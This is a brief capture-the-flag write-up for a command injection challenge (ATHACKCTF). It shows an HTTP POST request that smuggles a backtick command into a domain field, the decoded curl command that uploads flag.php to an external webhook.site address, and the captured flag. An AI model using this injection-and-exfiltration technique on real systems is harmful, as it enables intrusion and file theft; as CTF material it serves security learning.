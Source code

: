```yaml
---
created: 2025-03-01T22:11
updated: 2025-03-01T22:16
---
```


Domain validity check is done client-side, we can just inject a command directly.

```http
POST /?domain=google.com HTTP/1.1
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:56410

domain=%60curl+-F+%22file%3D%40flag.php%22+https%3A%2F%2Fwebhook.site%2F9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef%60
```

The command is this.

```bash
`curl -F "file=@flag.php" https://webhook.site/9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef`
```

```php
This content is hidden :))
<?php

// ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```

```flag
ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```
